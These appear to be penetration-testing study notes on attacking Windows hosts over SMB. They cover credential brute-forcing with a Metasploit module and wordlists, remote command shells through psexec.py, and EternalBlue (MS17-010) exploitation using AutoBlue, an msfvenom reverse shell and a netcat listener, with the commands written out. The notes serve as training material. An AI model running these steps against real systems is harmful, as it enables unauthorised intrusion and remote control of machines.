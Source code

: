 ![smb_auth](assets/images/windows_host_based_attacks/SMB%20Authentication.png)

* SMB Auth ^
* PsExec
    * A lightweight telnet replacement
    * Non gui environment that can be used to run processes on remote machines
* Bruteforce to get credentials
    * Msfconsole; use auxiliary/scanners/smb/smb_login; set hosts <>; set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt; set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt; run
* Psexec.py
    * psexec.py Administrator@10.3.26.229 cmd.exe
        * Enter password
        * This will instantiate a cmd window

## Exploiting Windows MS17-010 SMB Vulnerability (Eternal Blue)

* CVE-2017-0144
* Gives RCE on Windows by exploiting SMB
* Used by wanna cry ransomeware group
* Tools:
    * Autoblue-MS17-010 : gitthub.com/3ndG4me/AutoBlue-MS17-010
    * Kali linux
* Service discovery
    * Nmap -sV -p 445 -O target_ip
* Vulnerability detection
    * Nmap -sV -p 445 —script sm-vuln-ms17-010 target_ip
* Option: Manual exploitation
    * Use AutoBlue
        * ./shell_prep.sh
            * Generate reverse shell with msfvenom
        * Follow prompts
    * Start listening on port 1234 (Listening post)
        * Nc -nvlp 1234
    * ./eternalblue_exploit7.py target_ip shell code/sc_x64.bin
    * Successful execution will open a cmd shell on listening post
* Option 2: Automated using metasploit
    * You can check if the target is vulnerable using auxiliary module, search for eternalblue